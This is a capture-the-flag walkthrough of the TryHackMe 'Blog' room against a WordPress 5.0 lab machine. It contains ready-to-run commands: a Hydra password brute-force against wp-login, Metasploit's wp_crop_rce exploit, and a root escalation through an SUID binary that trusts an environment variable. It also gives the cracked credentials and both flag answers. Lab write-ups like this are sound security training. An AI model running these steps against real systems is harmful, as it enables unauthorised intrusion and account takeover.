






# Blog


> 🔬🌐 [Blog](https://tryhackme.com/room/blog)
>
> *Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!* *Enumerate this box and find the 2 flags that are hiding on it! Billy has some weird things going on his laptop. Can you maneuver around and get what you need? Or will you fall down the rabbit hole... In order to get the blog to work with AWS, you'll need to **add blog.thm to your /etc/hosts file**.*
>
> 

🎯 Target IP: `10.10.54.35`

## Recon

Add `blog.thm` to the `/etc/hosts` file

```bash
su
echo "10.10.54.35 blog.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir blog
cd blog
nmap blog.thm
    22/tcp  open  ssh
    80/tcp  open  http
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

nmap -sV -sC -Pn -oA blog blog.thm 
```

```bash
22/tcp  open  ssh  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 578ada90baed3a470c05a3f7a80a8d78 (RSA)
|   256 c264efabb19a1c87587c4bd50f204626 (ECDSA)
|_  256 5af26292118ead8a9b23822dad53bc16 (ED25519)
80/tcp  open  http  Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.0
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2023-05-15T08:44:45+00:00
| smb2-time: 
|   date: 2023-05-15T08:44:45
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
```

Enumerate web server application

```bash
nmap -p 80 --script=http-enum -sV blog.thm
```

```bash
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-json: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.0
|   /feed/: Wordpress version: 5.0
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

- `http://blog.thm/`
- `http://blog.thm/robots.txt`
  - Disallow: `/wp-admin/`

> 🚩 The web server uses the **`WordPress 5.0`** CMS

- `http://blog.thm/wp-admin/`
  - tried default `admin`:`password` - does not work

Perform some SMB enumeration

```bash
nmap -p445 --script smb-protocols blog.thm
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     202
|     210
|     300
|     302
|_    311

smbmap -u guest -p "" -d . -H blog.thm

smbclient -L blog.thm -N
smbclient //blog.thm/BillySMB -N

get check-this.png
# This looks like a rabbit hole
```




```bash
enum4linux -a blog.thm
```

> 📌 Found local user **`bjoel`**

Enumerate all the WordPress users using `WpScan`

```bash
wpscan --url=http://blog.thm --enumerate u
```





> 📌 Found 2 Wordpress users: `bjoel`, `kwheel`

Check for WordPress 5.0 vulnerabilities

```bash
searchsploit wordpress 5.0
```



> There is a vulnerability called [WordPress Core 5.0.0 - Crop-image Shell Upload](https://www.exploit-db.com/exploits/46662)
>
> *This module exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
> The crop-image function allows a user, with at least author privileges,
> to resize an image and perform a path traversal by changing the _wp_attached_file reference during the upload.
> The second part of the exploit will include this image in the current theme by changing the _wp_page_template attribute when creating a post.*

Since Karen Wheeler has author access to the blog, brute force the user `kwheel`.

Navigate to `http://blog.thm/wp-login.php` and try a password with user `kwheel`. Copy the HTTP POST request in raw format, it is necessary for the `Hydra` command.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.54.35%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Third string is the test condition, F: = test for failure. String got from the HTTP response.

# WPScan
echo -e 'kwheel'> user.txt
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt -t 75
```


> 📌 `kwheeler`:`cutiepie1`

## Exploitation

Use Metasploit with module `exploit/multi/http/wp_crop_rce`

```bash
metasploit -q

setg RHOSTS blog.thm
setg RHOST blog.thm
use exploit/multi/http/wp_crop_rce
set LHOST 10.18.65.48
set USERNAME kwheel
set PASSWORD cutiepie1
run
```



```bash
shell
script -qc /bin/bash /dev/null

find / -type f -iname user.txt 2>/dev/null
ls /home/bjoel/
cat /home/bjoel/user.txt
    You won't find what you're looking for here.
    TRY HARDER

exit # to exit the shell
```

Download the `.pdf` file

```bash
download /home/bjoel/Billy_Joel_Termination_May20-2020.pdf
```



```bash
shell

ls /media/usb
ls: cannot open directory '/media/usb': Permission denied
```

## Privilege Escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```


Try to run `/usr/sbin/checker`

```bash
/usr/sbin/checker
	Not an Admin
```

If `ltrace` is present on the machine use it. If not, download the file with Meterpreter and check it in Kali with `ltrace` or `Ghidra`.

```bash
ltrace /usr/sbin/checker
```

```bash
getenv("admin") 		= nil
puts("Not an Admin") 	= 13
Not an Admin
+++ exited (status 0) +++
```

The binary requires the `admin` environment variable to be declared

```bash
export admin=thm
```

```bash
/usr/sbin/checker

# root shell
```


```bash
find / -type f -iname user.txt 2>/dev/null
cat /media/usb/user.txt

find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```


<details>
<summary>Reveal Flag - user.txt: 🚩</summary>


`c8421899aae571f7af486492b71a8ab7`


</details>


<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`9a0b2b618bef9bfa7ac28c1353d9f318`


</details>


------

